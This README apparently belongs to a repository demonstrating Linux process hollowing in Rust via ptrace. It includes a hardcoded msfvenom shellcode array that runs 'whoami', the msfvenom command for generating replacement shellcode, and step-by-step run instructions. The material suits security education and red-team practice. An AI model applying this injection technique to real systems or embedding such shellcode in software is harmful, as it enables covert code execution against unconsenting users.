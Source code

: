 Process Hollowing on Unix with Rust
====================================

This repository provides an example of process hollowing on Unix systems implemented in Rust. Process hollowing is a technique often used in penetration testing and malware development where an executable process is started and its memory is replaced with arbitrary shellcode, effectively "hollowing out" the original process.

In this example, the process /bin/ls is hollowed and replaced with shellcode. By default, the shellcode executes the whoami command, generated using msfvenom.

## Features
- Demonstrates process hollowing on Unix systems using Rust.
- Uses ptrace for memory manipulation and process control.
- Executes arbitrary shellcode within the hollowed process.

## Shellcode Details
By default, the shellcode used in this example is a whoami shellcode, generated by msfvenom. It prints the current user's username when executed.

The shellcode is pre-generated and included directly in the code as a byte array:

```rust
let shellcode: [u8; 43] = [
    0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f,
    0x73, 0x68, 0x00, 0x99, 0x50, 0x54, 0x5f, 0x52, 0x66, 0x68, 0x2d, 0x63,
    0x54, 0x5e, 0x52, 0xe8, 0x07, 0x00, 0x00, 0x00, 0x77, 0x68, 0x6f, 0x61,
    0x6d, 0x69, 0x00, 0x56, 0x57, 0x54, 0x5e, 0x6a, 0x3b, 0x58, 0x0f, 0x05
];
```

This shellcode can be replaced with any custom shellcode for testing purposes.

## Prerequisites
- Rust: Ensure you have the Rust toolchain installed. Visit rust-lang.org for installation instructions.
- Unix-based OS: This example is designed for Unix systems (e.g., Linux).


## Generating Custom Shellcode
To generate your own shellcode (e.g., with msfvenom):

```bash
msfvenom -p linux/x64/exec CMD=whoami -f rust
```

Replace the default shellcode in the source code with your generated shellcode.

How It Works
- Forking a Child Process: The program forks the current process into a parent and child.
- Tracing the Child: The child process is started under ptrace for debugging.
- Executing /bin/ls: The child process executes /bin/ls using execve as a placeholder process.
- Injecting Shellcode: The parent process writes the shellcode to the child process's memory at its instruction pointer (RIP).
- Resuming the Process: The parent process resumes the execution of the hollowed child process, running the shellcode.

## Usage

Clone the repository:

```bash
git clone <repository_url>
cd <repository_directory>
```

Build the project:

```bash
cargo build --release
```

Run the binary with root privileges:

```bash
sudo ./target/release/process_hollowing
```

Observe the output:

The parent process will print logs showing the memory manipulation and injection.
The hollowed process will execute the whoami shellcode, printing the username of the current user.


## #Example Output
```
I'm the parent! My child is 12345
Child stopped: Stopped(PtraceEvent)
RIP: 0x7fffabcde000
Writing shellcode to child process...
Wrote chunk to 0x7fffabcde000: 0x68732f2f6e69622f
...
Shellcode written!
root
```
## Disclaimer
This project is for educational purposes only. Misuse of this code can result in legal and ethical consequences. Always ensure you have explicit permission before using techniques like process hollowing.

